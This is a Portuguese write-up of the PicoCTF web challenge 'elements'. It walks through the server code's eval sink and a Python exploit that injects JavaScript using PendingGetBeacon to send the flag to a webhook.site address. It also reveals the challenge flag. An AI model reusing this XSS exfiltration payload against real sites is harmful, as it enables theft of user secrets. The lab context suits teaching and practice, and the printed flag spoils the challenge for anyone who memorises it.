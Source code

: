 # WriteUp: elements
## Descrição do desafio
**Autor**: ehhthing \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/447?category=1&page=4) \
**Categoria**: Web Exploitation \
**Dificuldade**: Difícil \
**Data**: 2024 \
**Descrição**:
> Insert Standard Web Challenge Here.
> Source code: elements.tar.gz.
> Craft some magic up here.

## Passo a Passo da Solução
### 1. Análise do código fonte
O desafio fornece os arquivos fonte do servidor (`elements.tar.gz`) por trás do website alvo. O principal arquivo a se notar é o `index.mjs`, nele descobrimos o path `/remoteCraft`. Esse path aceita um parameter chamado recipe, que passa pelas verificações:

{% code title="index.mjs" overflow="wrap" lineNumbers="true" %}

``` javascript
if (url.pathname === '/remoteCraft') {
	try {
		const { recipe, xss } = JSON.parse(url.searchParams.get('recipe'));
		assert(typeof xss === 'string');
		assert(xss.length < 300);
		assert(recipe instanceof Array);
		assert(recipe.length < 50);
		for (const step of recipe) {
			assert(step instanceof Array);
			assert(step.length === 2);
			for (const element of step) {
				assert(typeof xss === 'string');
				assert(element.length < 50);
			}
		}
		visit({ recipe, xss });
	} catch(e) {
		console.error(e);
		return res.writeHead(400).end('invalid recipe!');
	}
	return res.end('visiting!');
}
```

{% endcode %}

Reparamos na chamada da função `visit({ recipe, xss})`. Vamos examinar essa função:

{% code title="index.mjs" overflow="wrap" lineNumbers="true" %}

``` javascript
async function visit(state) {
	if (visiting) return;
	visiting = true;

	state = {...state, flag }

	const userDataDir = await mkdtemp(join(tmpdir(), 'elements-'));

	await mkdir(join(userDataDir, 'Default'));
	await writeFile(join(userDataDir, 'Default', 'Preferences'), JSON.stringify({
		net: {
			network_prediction_options: 2
		}
	}));

	const proc = spawn(
		'/usr/bin/chromium-browser-unstable', [
			`--user-data-dir=${userDataDir}`,
			'--profile-directory=Default',
			'--no-sandbox',
			'--js-flags=--noexpose_wasm,--jitless',
			'--disable-gpu',
			'--no-first-run',
			'--enable-experimental-web-platform-features',
			`http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`
		],
		{ detached: true }
	)

	await sleep(10000);
	try {
		process.kill(-proc.pid)
	} catch(e) {}
	await sleep(500);

	await rm(userDataDir, { recursive: true, force: true, maxRetries: 10 });

	visiting = false;
}
```

{% endcode %}

Podemos ver que essa função cria uma nova instância do chromium rodando dentro do servidor com uma aba aberta na url `http://127.0.0.1:8080/#${Buffer.from(JSON.stringify(state)).toString('base64')}`. A variável state está armazenando tanto os paramêtros recipe e xss quanto a flag do desafio. \
Agora, se formos examinar o arquivo `index.js`, encontramos a função: 

{% code title="index.js" overflow="wrap" lineNumbers="true" %}

``` javascript
const evaluate = (...items) => {
	const [a, b] = items.sort();
	for (const [ingredientA, ingredientB, result] of recipes) {
		if (ingredientA === a && ingredientB == b) {
			if (result === 'XSS' && state.xss) {
				eval(state.xss);
			}
			return result;
		}
	}
	return null;
}
```

{% endcode %}

Essa função é responsável por executar as receitas descritas no `state.recipe`. Contudo, se o resultado da tarefa for igual a XSS, qualquer código dentro de `state.xss` será executado.
### 2. Solucionando o desafio
A estratégia para solucionar o desafio começa encontrando um array recipe com a sequência correta de receitas que gera um elemento XSS. No código python `exploit.py`, a função `find_sequence` será responsável por encontrar este array:

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}

``` python
def find_sequence():
    orig = ['Fire', 'Water', 'Earth', 'Air']
    dependencies = {}
    for r in all_recipes:
        dependencies[r[2]] = [r[0], r[1]]

    dep_graph = {}

    def trace_dependency(dep):
        if dep in dependencies:
            dep_graph[dep] = set(dependencies[dep])
            for d in dependencies[dep]:
                if d in orig:
                    continue
                trace_dependency(d)

    trace_dependency("XSS")

    ts = graphlib.TopologicalSorter(dep_graph)
    res_order = list(ts.static_order())

    res_lst = [dependencies[k] for k in res_order if k in dependencies]
    return res_lst
sequence = find_sequence()
```

{% endcode %}

Agora, precisamos criar uma forma de transferir dados da aplicação aberta no chromium do server para nosso computador. Para receber os dados, utilizaremos o website webhook.site. Para enviá-los do servidor, teremos que injetar algum código javascript pelo paramater xss. O servidor está bloqueando a maioria das formas de se comunicar com outros sites pelo navegador chromium, tal como o `fetch`. Contudo, observamos que foi habilitada a opção `--enable-experimental-web-platform-features`. Desse modo, é possível usar uma função chamada `PendingGetBeacon`: 

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}

``` python
parameters = {
    "recipe": sequence, 
    "xss": 'let pd = new PendingGetBeacon(`https://webhook.site/6850a7e0-1488-4bd2-ad3b-cdc1db0f28b1/${state.flag}`); pd.sendNow();'
}

print(sequence)

encoded_params = urlencode({"recipe": json.dumps(parameters)})

url = f"{base_url}{path}?{encoded_params}"

print(f"URL gerada: {url}")

response = requests.get(url) 
print(response.text)
```

{% endcode %}

Recebemos no webhook: *picoCTF%7Blittle_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a%7D%20btw%20contact%20me%20on%20discord%20with%20ur%20solution%20thanks%20@ehhthing* \
Decodificando-o obtemos: picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a} btw contact me on discord with ur solution thanks @ehhthing \
Logo a flag é: **picoCTF{little_alchemy_was_the_0g_game_does_anyone_rememb3r_9889fd4a}**

## Autor da WriteUp
[Membro de Networking - Luiz Felipe](https://github.com/LuizF14)
